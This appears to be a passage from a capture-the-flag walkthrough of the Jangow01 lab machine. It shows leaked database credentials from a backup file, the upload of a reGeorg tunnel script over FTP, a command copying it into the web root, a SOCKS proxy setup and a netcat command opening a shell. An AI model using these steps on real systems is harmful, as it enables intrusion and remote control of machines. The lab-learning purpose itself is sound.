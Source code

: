 We found a `.backup` file. Let's see what contains:
```php
<?php
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password,$database);
// Check connection
if (!$conn) {
	die("Connection failed: ", mysqli_connect_error()):
}
echo "Connected succesfully";
mysqli_close($conn);
?>
```

Bingo!  We already have the user credentials.

### Accessing via FTP
SSH is restricted so we can't access through there. We cannot continue with the web shell either because the user running it (`www-data`) doesn't have sufficient permissions.

With the credentials that we have just obtained we are going to access the FTP server and we are going to take advantage of this access to create a proxy sock that will provide us a tunnel connection between our machine and the victim.

### Creating a Proxy Sock using the reGeorg tool
This tool provides us with different php scripts that create a connection between the attacking machine and the victim using sockets.

Using tools like **Filezilla**, we upload our reGeorg file `tunnel.nosocket.php` to the `/tmp` folder of the victim machine.

Once the file is on the victim machine, we rename it to `tunnel.php` (to make it more comfortable to work with) and give it permissions (recommended: 777)

For more security, we can check that the file is on the victim machine by running `ls /tmp`.

Using the web shell, we execute:

```bash
cp -v /tmp/tunnel.php /var/www/html/site/tunnel.php
```

In a new terminal, we execute:
```bash
export SOCKS_PROXY=socks5://127.0.0.1:8080
python reGeorgSocksProxy.py -p 8080 -u 10.0.2.4/site/tunnel.php
```

If we execute now in another terminal the command:
```bash
nc -e /bin/sh 10.0.2.4 80
```
